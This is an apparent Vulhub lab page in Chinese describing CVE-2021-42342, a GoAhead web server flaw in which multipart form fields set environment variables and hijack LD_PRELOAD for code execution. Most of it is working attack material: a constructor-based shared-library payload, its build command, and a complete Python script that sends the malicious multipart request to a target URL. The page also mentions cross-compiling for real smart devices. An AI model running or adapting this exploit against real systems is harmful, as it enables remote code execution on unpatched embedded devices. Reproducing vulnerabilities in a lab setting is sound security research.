

# GoAhead Server 环境变量注入 CVE-2021-42342

## 漏洞描述

GoAhead是一个开源(商业许可)、简单、轻巧、功能强大、可以在多个平台运行的Web Server，多用于嵌入式系统、智能设备。其支持运行ASP、Javascript和标准的CGI程序。

这个漏洞是[CVE-2017-17562](https://github.com/vulhub/vulhub/tree/master/goahead/CVE-2017-17562)漏洞补丁的绕过，攻击者可以利用该补丁没有考虑到的multipart表单控制目标服务器的环境变量，进而劫持`LD_PRELOAD`来执行任意代码。

参考链接：

- https://github.com/vulhub/vulhub/tree/master/goahead/CVE-2017-17562
- https://ahmed-belkahla.me/post/2-methods-rce-0-day-in-goahead-webserver-pbctf-2021/
- https://mp.weixin.qq.com/s/AS9DHeHtgqrgjTb2gzLJZg

## 环境搭建

Vulhub执行如下命令启动GoAhead 5.1.4：

```
docker-compose up -d
```

启动完成后，访问`http://your-ip:8080/`即可看到欢迎页面。访问`http://your-ip:8080/cgi-bin/index`即可查看到Hello页面，即为CGI执行的结果。

## 漏洞复现

首先需要编译一个动态链接库，而且需要和目标架构相同。所以在实战中，如果对方是一个智能设备，你可能需要交叉编译。因为Vulhub运行在`Linux x86_64`的机器中，所以我们直接用Linux PC编译即可。动态链接库源码：

```c
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello: World\r\n\r\n", 16);
    write(1, "Hacked\n", 7);
}
```

这样，`before_main`函数将在程序执行前被调用。编译以上代码：

```
gcc -s -shared -fPIC ./payload.c -o payload.so
```

然后，我们使用[这个脚本](https://github.com/vulhub/vulhub/blob/master/goahead/CVE-2021-42342/poc.py)来发送恶意数据包，复现漏洞：

```
python poc.py http://target-ip:8080/cgi-bin/index /path/to/payload.so
```

可见，我们在动态链接库中编写的劫持代码已经被成功执行：



## 漏洞POC

```python
import sys
import socket
import ssl
import random
from urllib.parse import urlparse, ParseResult

PAYLOAD_MAX_LENGTH = 16384 - 200


def exploit(client, parts: ParseResult, payload: bytes):
    path = '/' if not parts.path else parts.path
    boundary = '----%s' % str(random.randint(1000000000000, 9999999999999))
    padding = 'a' * 2000
    content_length = min(len(payload) + 500, PAYLOAD_MAX_LENGTH)
    data = fr'''POST {path} HTTP/1.1
Host: {parts.hostname}
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary={boundary}
Content-Length: {content_length}

--{boundary}
Content-Disposition: form-data; name="LD_PRELOAD";

/proc/self/fd/7
--{boundary}
Content-Disposition: form-data; name="data"; filename="1.txt"
Content-Type: text/plain

#payload#{padding}
--{boundary}--
'''.replace('\n', '\r\n')
    data = data.encode().replace(b'#payload#', payload)
    client.send(data)
    resp = client.recv(20480)
    print(resp.decode())


def main():
    target = sys.argv[1]
    payload_filename = sys.argv[2]

    with open(payload_filename, 'rb') as f:
        data = f.read()

    if len(data) > PAYLOAD_MAX_LENGTH:
        raise Exception('payload size must not larger than %d', PAYLOAD_MAX_LENGTH)

    parts = urlparse(target)
    port = parts.port
    if not parts.port:
        if parts.scheme == 'https':
            port = 443
        else:
            port = 80

    context = ssl.create_default_context()
    with socket.create_connection((parts.hostname, port), timeout=8) as client:
        if parts.scheme == 'https':
            with context.wrap_socket(client, server_hostname=parts.hostname) as ssock:
                exploit(ssock, parts, data)

        else:
            exploit(client, parts, data)


if __name__ == '__main__':
    main()
```

